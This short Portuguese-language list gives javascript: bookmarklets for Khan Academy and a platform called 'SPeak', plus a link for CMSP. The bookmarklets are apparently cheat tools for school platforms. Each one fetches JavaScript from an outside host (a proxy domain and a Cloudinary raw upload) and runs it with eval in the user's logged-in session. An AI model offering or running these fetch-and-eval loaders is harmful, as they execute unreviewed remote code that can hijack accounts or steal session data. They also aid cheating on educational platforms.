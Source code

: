 # Codigo

Khan cacademy

javascript:fetch("https://proxy.khanware.space/estrogen.productions/p/raw/z6dwi4dw03").then(t=>t.text()).then(eval);


SPeak
 javascript:fetch(`https://res.cloudinary.com/dq36xqdoe/raw/upload/v${Math.floor(Math.random() * 1000000)}/main_oqidn5.js`).then(r => r.text()).then(r => eval(r))


CMSP(não faz redação nem redasp)

https://cmspcheeto.squareweb.app/